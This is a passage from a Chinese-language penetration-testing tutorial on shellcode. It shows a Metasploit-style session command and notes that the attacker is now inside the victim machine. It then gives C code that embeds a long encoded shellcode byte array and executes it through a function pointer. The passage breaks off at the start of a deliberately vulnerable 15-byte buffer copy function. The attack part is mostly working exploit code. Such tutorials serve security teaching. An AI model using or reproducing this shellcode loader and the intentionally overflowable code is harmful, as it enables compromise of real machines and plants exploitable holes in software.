 ```
$ session 1
```

前面命令的输出可以在下面的截图中看到：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00273.jpeg)

我们现在在受害者机器内部。退出此会话，让我们回到我们的代码。因此，我们的最终代码应该是这样的：

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int shell_pwn()
{
unsigned char code[] =
"\xda\xcf\xd9\x74\x24\xf4\xbd\xb8\xbe\xbf\xa8\x5b\x29\xc9\xb1"
"\x53\x83\xeb\xfc\x31\x6b\x13\x03\xd3\xad\x5d\x5d\xdf\x3a\x23"
"\x9e\x1f\xbb\x44\x16\xfa\x8a\x44\x4c\x8f\xbd\x74\x06\xdd\x31"
"\xfe\x4a\xf5\xc2\x72\x43\xfa\x63\x38\xb5\x35\x73\x11\x85\x54"
"\xf7\x68\xda\xb6\xc6\xa2\x2f\xb7\x0f\xde\xc2\xe5\xd8\x94\x71"
"\x19\x6c\xe0\x49\x92\x3e\xe4\xc9\x47\xf6\x07\xfb\xd6\x8c\x51"
"\xdb\xd9\x41\xea\x52\xc1\x86\xd7\x2d\x7a\x7c\xa3\xaf\xaa\x4c"
"\x4c\x03\x93\x60\xbf\x5d\xd4\x47\x20\x28\x2c\xb4\xdd\x2b\xeb"
"\xc6\x39\xb9\xef\x61\xc9\x19\xcb\x90\x1e\xff\x98\x9f\xeb\x8b"
"\xc6\x83\xea\x58\x7d\xbf\x67\x5f\x51\x49\x33\x44\x75\x11\xe7"
"\xe5\x2c\xff\x46\x19\x2e\xa0\x37\xbf\x25\x4d\x23\xb2\x64\x1a"
"\x80\xff\x96\xda\x8e\x88\xe5\xe8\x11\x23\x61\x41\xd9\xed\x76"
"\xa6\xf0\x4a\xe8\x59\xfb\xaa\x21\x9e\xaf\xfa\x59\x37\xd0\x90"
"\x99\xb8\x05\x0c\x91\x1f\xf6\x33\x5c\xdf\xa6\xf3\xce\x88\xac"
"\xfb\x31\xa8\xce\xd1\x5a\x41\x33\xda\x75\xce\xba\x3c\x1f\xfe"
"\xea\x97\xb7\x3c\xc9\x2f\x20\x3e\x3b\x18\xc6\x77\x2d\x9f\xe9"
"\x87\x7b\xb7\x7d\x0c\x68\x03\x9c\x13\xa5\x23\xc9\x84\x33\xa2"
"\xb8\x35\x43\xef\x2a\xd5\xd6\x74\xaa\x90\xca\x22\xfd\xf5\x3d"
"\x3b\x6b\xe8\x64\x95\x89\xf1\xf1\xde\x09\x2e\xc2\xe1\x90\xa3"
"\x7e\xc6\x82\x7d\x7e\x42\xf6\xd1\x29\x1c\xa0\x97\x83\xee\x1a"
"\x4e\x7f\xb9\xca\x17\xb3\x7a\x8c\x17\x9e\x0c\x70\xa9\x77\x49"
"\x8f\x06\x10\x5d\xe8\x7a\x80\xa2\x23\x3f\xb0\xe8\x69\x16\x59"
"\xb5\xf8\x2a\x04\x46\xd7\x69\x31\xc5\xdd\x11\xc6\xd5\x94\x14"
"\x82\x51\x45\x65\x9b\x37\x69\xda\x9c\x1d";

    printf("Shellcode Length: %d\n", (int)strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}

int copytobuffer(char* input)
{
    char buffer[15];
